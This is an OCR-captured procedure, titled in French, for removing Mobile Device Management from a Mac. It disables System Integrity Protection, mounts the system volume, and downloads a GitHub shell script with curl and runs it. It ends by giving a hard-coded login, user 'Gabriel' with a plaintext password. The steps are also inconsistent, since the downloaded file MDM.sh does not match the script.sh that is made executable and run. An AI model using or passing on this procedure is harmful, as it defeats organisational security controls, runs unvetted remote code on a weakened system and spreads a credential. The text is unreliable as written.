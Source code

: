 Procédure pour la désactivation du MDM :

Boot to Recovery Mode:
1. Shut down Mac
2. Hold power button until "Loading startup options" appears
3. Click Options → Continue

Disable System Integrity Protection:
1. Open Terminal (Utilities menu)
2. Run: csrutil disable
3. Run: reboot and re-enter Recovery Mode

Mount System Volume:
1. Open Disk Utility
2. Select "Macintosh HD" (or your system volume)
3. Click "Mount" (don't reformat)
4. Close Disk Utility

Prepare Script Execution:
1. Open Terminal
2. Enter:
curl -O https://raw.githubusercontent.com/philippeviennecouture/Gab/main/MDM.sh
chmod +x script.sh
3. Run script with:
./script.sh
4. After script completes:
reboot

At login screen, select "Gabriel", password: passwordtemp
